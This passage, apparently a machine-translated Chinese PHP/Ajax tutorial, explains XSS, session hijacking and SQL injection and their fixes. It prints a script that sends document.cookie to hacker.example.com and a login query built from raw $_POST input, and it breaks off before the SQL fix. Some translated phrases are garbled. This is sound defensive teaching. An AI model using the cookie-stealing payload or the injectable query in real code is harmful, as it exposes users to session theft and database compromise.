 我们需要安装开发工具的 web 浏览器。可能的工具有 Firefox 和 Firebug。

## 怎么做。。。

Ajax 或非 Ajax web 应用程序中常见的安全威胁有 XSS、SQL 注入和会话劫持。我们将看看如何预防它们。

1.  **XSS**

    XSS 或跨站点脚本攻击利用通过用户输入或通过某种手段入侵 URL 向网站添加脚本的能力。让我们以流行的推特网站为例，该网站允许用户输入他们的个人信息。考虑下面的输入为 Po.T0.生物 BiT1 字段：

    ```php
    <script>alert('XSS');</script>

    ```

    如果 Twitter 工程师允许 HTML 执行，或者在显示条目之前没有对其进行清理，它会提示一个带有文本**XSS**的警告框。在真实场景中，它不会是警报框，但可能是恶意活动，例如通过已知 URL 模仿用户输入或窃取用户数据或劫持会话：

    ```php
    ajaxReq('http://example.com/updateUser.php?passwd=xyz');

    ```

    通常，黑客可能无法直接访问 `updateUser.php`页面；但是 JavaScript 代码可以完全访问，因为它在当前会话范围内。因此，在这里，我们还必须看看我们的体系结构：

    ```php
    document.write('<img src= "http://hacker.example.com/storeHackedData.php?' + document.cookie + '" />';

    ```

    由于能够执行此恶意代码，黑客可能会开始窃取浏览器 cookie。通过 cookie 中可用的会话 ID，黑客可以劫持用户的会话。

    **溶液：**

    XSS 的可能解决方案为：

    *   `strip_tags()`

        但是，当我们必须显示 HTML 输入时，它可能不是一个好的解决方案。

    *   HTML Purifier library [http://htmlpurifier.org/](http://htmlpurifier.org/)

        这个库可以净化 HTML 代码，因此对于 XSS 问题来说是一个更好的选择。

2.  **Session hijacking**

    如前所述，黑客可能窃取 cookie 数据，从而获得用户的会话 ID。当黑客通过 cookie 编辑工具设置其浏览器的会话值时，黑客将访问其他用户的会话。当服务器或脚本被编程为在所有通信中使用相同的会话 ID 时，这种威胁通常很常见。

    **溶液：**

    一个可能的快速解决方案是为每个请求生成一个新的会话 ID，其中包括：

    `session_regenerate_id()`

3.  **SQL 注入**

当 SQL 查询对用户输入执行操作以获得某些结果时，如果用户输入未正确清理，则可能会更改 SQL 查询。例如：

```php
$sql = 'SELECT COUNT(*) FROM users WHERE username=\''.$_POST['username'].'\' AND passwd=\''.$_POST['passwd'].'\'';

```
